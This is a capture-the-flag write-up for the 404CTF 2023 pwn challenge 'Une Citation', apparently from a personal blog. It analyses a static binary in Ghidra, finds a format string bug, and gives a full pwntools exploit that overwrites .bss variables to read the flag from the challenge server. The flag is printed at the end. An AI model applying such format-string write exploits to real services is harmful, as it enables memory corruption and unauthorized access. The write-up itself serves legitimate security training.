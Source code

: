 ```yaml
---
title: CTFs | 404CTF2023 | PWN | Une Citation
author: Kaiba_404
date: 2023-06-05
categories: [CTFs, 404CTF2023, PWN]
tags: [CTF, 404CTF2023, pwn]
permalink: /CTFs/404CTF2023/pwn/uneCitation1
---
```


# Une Citation pas comme les autres [1/2]


![citation_image](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/3b495da1-5e75-451e-adfb-e29bac5415e9)

> /bin n'est pas monté sur la machine à distance.

We have only one file for this challenge [une_citation_pas_comme_les_autres_1_2](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/tree/main/_posts/CTFs/404CTF2023/pwn/files/une_citation_pas_comme_les_autres_1_2).

To gather more information about the binary file, we can use the following commands:

`file une_citation_pas_comme_les_autres_1_2`: This command provides details about the file's format, architecture, and other relevant information. It helps identify the type of binary file you are dealing with.

`checksec une_citation_pas_comme_les_autres_1_2`: This command checks the security features enabled in the binary file, such as Address Space Layout Randomization (ASLR), Stack Canary, and other protections. It helps assess the level of security measures implemented in the binary.

By executing these commands and providing the name of the binary file, we can obtain more information about its format, security features, and potential vulnerabilities.

```shell
┌──(kali㉿kali)-[~]
└─$ file une_citation_pas_comme_les_autres_1_2 
une_citation_pas_comme_les_autres_1_2: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=8dc288d4fcf863f23a2d6094765775bb3c4330d3, for GNU/Linux 4.4.0, not stripped
                                                                                                    
┌──(kali㉿kali)-[~]
└─$ checksec une_citation_pas_comme_les_autres_1_2 
[*] '~/une_citation_pas_comme_les_autres_1_2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Based on the information provided, it appears that certain exploitation methods can be eliminated based on the characteristics of the binary file:

**Ret2Lib (Return-to-Libc)**: This method relies on the presence of dynamic linking with a libc library. Since the binary is statically linked and does not have access to a libc library, the Ret2Lib technique is not applicable.

**Ret2Syscall (Return-to-Syscall)**: This method involves redirecting the execution flow to invoke specific system calls. However, if the binary does not allow for shell access, the Ret2Syscall technique cannot be used.

Considering these constraints, alternative exploitation techniques may need to be explored to exploit the vulnerability and progress further in the challenge.

## Analysis the binary file

Let's begin with Ghidra:

**Function main()**

![citation_main_1](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/8c9d56ee-09a1-4882-99cd-504547ea4100)

![citation_main_2](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a3fa6bc2-9677-4f27-b5c6-ceec796eb1ab)


As the pictures show, main function gives us three choices and they will call three different functions. Let's look at the other functions that were called in main

**count_quote**

![count_quote](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/f6f402b5-bea3-4538-ad54-e123fe6436c2)

Based on the picture, it appears that the function is deliberately designed to be a joke! Instead of returning the number of quotes as expected, it simply returns a random number. 

**pick_quote**
![pick_quote](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/f9bdb6c5-6e5f-4d5f-9c17-c5051f066da9)

![num_quote_chosen_index](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a3f66bc4-f9ee-4450-bac1-c24088fe453a)

This function performs the following steps:

1. Opens the file citations.txt.
2. Reads the content of the file line by line.
3. Checks the values of the variables chosen_index and num_quotes.0, which are located statically in the .bss segment of the program.
4. If num_quotes.0 is equal to 0, it enters a loop to count the number of citations inside citations.txt and stores the count in num_quotes.0.
5. If num_quotes.0 is greater than 0, it randomly selects chosen_index using the expression chosen_index = iVar1 % (num_quotes.0 - 1). Note that chosen_index cannot be equal to num_quotes.0 due to this line.
6. Based on the logic provided, it is inferred that the flag is located in the last line of the citations.txt file.

It seems that the function is responsible for reading and processing the contents of citations.txt, determining the number of citations, and selecting a random index to access one of the citations. If we don't do something 'unusual' we will never read the last line of the citations.txt file. This suggests to me that the flag is at the end of the file.


**write_quote**

![write_quotes_vuln](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a94d75df-f729-4263-9e31-d072c8d87c01)

And voila, we have a format string vulnerability inside the write_quote function. But how can we using this vuln for getting the flag?

## Exploitation


The only function that lets us read the file now is the `pick_quote` function. So we need to exploit this function (make it behave erratically, of course). So how to make it act abnormally?

Upon closer examination of the file, it becomes evident that it lacks Position Independent Execution (PIE), and the variables num_quotes.0 and chosen_index are situated in the .bss section. This implies that we have the potential to manipulate these values using format strings!

Note that the `if` condition in the code only evaluates the cases where `num_quotes.0` is equal to 0 or greater than 0. This indicates that we have the ability to modify its value by using a negative number, represented in hexadecimal form. By determining the appropriate hexadecimal value, we can manipulate `chosen_index` and gain the flexibility to read quotes from any line in the citations.txt file.

```python
# write chosen_value (that we want), into chosen_index
payload2 = fmtstr_payload(6, {0x4be130:chosen_value}, write_size='int')

# write 0xffffffff (-1) into num_quotes.0
payload = fmtstr_payload(6, {0x4be134:0xffff},write_size='byte')
p.sendlineafter(b'>>> ',b'2')
p.recvuntil(b"[Vous] :")
p.sendline(payload)

payload = fmtstr_payload(6, {0x4be136:0xffff},write_size='byte')
p.sendlineafter(b'>>> ',b'2')
p.recvuntil(b"[Vous] :")
p.sendline(payload)

```

If we know the number of citations contained in the `citations.txt` file we can read directly from it, however this seems impossible. So I did it manually (when `chosen_index` has a value greater than the number of quotes in the file, the server will send an empty string) searching many times I found the number of quotes in the file is `0x139c4`

**The complete code:**

```python

from pwn import *
context.clear(arch='amd64',os='linux')
# p = process("./une_citation_pas_comme_les_autres_1_2")
p = remote("challenges.404ctf.fr", 31719)


###################################################################################

#  write chosen_value (0x139c4), into chosen_index
payload2 = fmtstr_payload(6, {0x4be130:0x139c4}, write_size='int')
p.sendlineafter(b'>>> ',b'1')
p.sendlineafter(b'>>> ',b'2')
p.recvuntil(b"[Vous] :")
p.sendline(payload2)

# write 0xffffffff (-1) into num_quotes.0
payload = fmtstr_payload(6, {0x4be134:0xffff},write_size='byte')
p.sendlineafter(b'>>> ',b'2')
p.recvuntil(b"[Vous] :")
p.sendline(payload)

payload = fmtstr_payload(6, {0x4be136:0xffff},write_size='byte')

p.sendlineafter(b'>>> ',b'2')
p.recvuntil(b"[Vous] :")
p.sendline(payload)

###################################################################################


p.sendlineafter(b'>>> ',b'1')

print(p.recv().decode())
p.close()


```
**Result**

```shell
$ python3 read_nom.py 
[+] Opening connection to challenges.404ctf.fr on port 31719: Done
404CTF{3H_813N!0U1_C357_M0N_V1C3.D3P141r3_357_M0N_P14151r.J41M3_QU0N_M3_H41553}

[*] Closed connection to challenges.404ctf.fr port 31719

```

**Flag:** `404CTF{3H_813N!0U1_C357_M0N_V1C3.D3P141r3_357_M0N_P14151r.J41M3_QU0N_M3_H41553}`